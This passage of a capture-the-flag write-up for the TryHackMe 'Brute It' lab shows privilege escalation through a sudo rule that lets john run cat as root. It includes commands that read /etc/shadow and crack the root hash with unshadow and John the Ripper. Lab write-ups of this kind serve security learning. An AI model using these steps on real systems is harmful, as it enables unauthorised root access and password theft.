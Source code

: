 We are in! As john.  Check around quickly to find the `user.txt`

```shell
john@bruteit:~$ ls
user.txt
```

## Now let's get root

Let's check what `john` is having permission to run as root using `sudo`:

``` shell
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

`john` can run `cat` as **root** using `sudo`.  Let's `cat` the `root.txt` flag:

```shell
 john@bruteit:~$ sudo cat /root/root.txt
THM{[REDACTED]}
john@bruteit:~$
```

There is one last task left to do.  Discover the **root** `password`.

Let's use the `cat` command to get the `/etc/passwd` and `/etc/shadow` files on our machine to crack the password again using `JohnTheRipper`.

This time, we can use the `unshadow` command to prepare a file for `John`:

```shell
unshadow passwd.txt shadow.txt > pass.txt
```

Now let's 'John' crack the file:

```shell
john --wordlist=/usr/share/wordlist/rockyou.txt pass.txt

john --show pass.txt
root:[REDACTED]:0:0:root:/root:/bin/bash
```

There it is! The **root password** is [REDACTED]

## COMPLETED

![Complete!](./_attachment/THM_Brute-It_header2.png)

![pdf-version](./THM%20-%20Brute%20It-pdf.pdf)
